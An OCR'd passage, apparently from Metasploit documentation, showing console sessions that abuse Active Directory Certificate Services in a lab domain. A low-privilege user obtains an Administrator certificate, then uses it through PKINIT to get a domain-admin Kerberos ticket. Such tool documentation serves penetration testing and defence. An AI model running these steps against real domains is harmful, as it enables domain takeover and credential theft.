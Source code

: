 ```
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Finally lets use the new PFX file with the `pkinit_login` to log in as the domain administrator user `Administrator@daforest.com`:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216181438_default_172.30.239.85_mit.kerberos.cca_460041.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
```
